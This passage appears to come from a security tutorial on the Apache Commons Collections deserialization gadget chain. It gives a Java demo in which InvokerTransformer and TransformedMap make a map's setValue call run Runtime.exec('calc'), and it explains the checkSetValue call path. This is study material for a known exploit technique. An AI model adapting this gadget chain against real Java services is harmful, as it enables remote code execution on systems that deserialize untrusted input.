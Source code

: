 Actually, the `setValue(Object value)` method is implemented by the `AbstractMapEntryDecorator` class, which implements the `Map` interface. The `MapEntry` class inherits from this class and overrides the method.

```java
package com.B1ng0OOO;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class Demo {
    public static void main(String[] args) {
        try {
            Runtime runtime = Runtime.getRuntime();
            InvokerTransformer exec = (InvokerTransformer) InvokerTransformer.getInstance("exec", new Class[]{String.class}, new Object[]{"calc"});

            Class<?> transformedMapClass = Class.forName("org.apache.commons.collections.map.TransformedMap");
            Method checkSetValue = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);
            checkSetValue.setAccessible(true);

            HashMap<Object, Object> hashMap = new HashMap<>();
            hashMap.put("key", "value");
            Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, exec);

            for (Map.Entry<Object, Object> entry : transformedMap.entrySet()) {
                entry.setValue(runtime);
            }
            
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno file="com.B1ng0OOO.Demo"}

When iterating over the `Map`, the `setValue(Object value)` method is called to modify the value in the `Map`, while the key remains unchanged. During this process, the `checkSetValue(Object value)` method of the constant `parent` is executed. By passing the `transformedMap` variable of the `TransformedMap` class, which is a subclass of `AbstractInputCheckedMapDecorator`, the `transformedMap.setValue(Object value)` method is triggered.
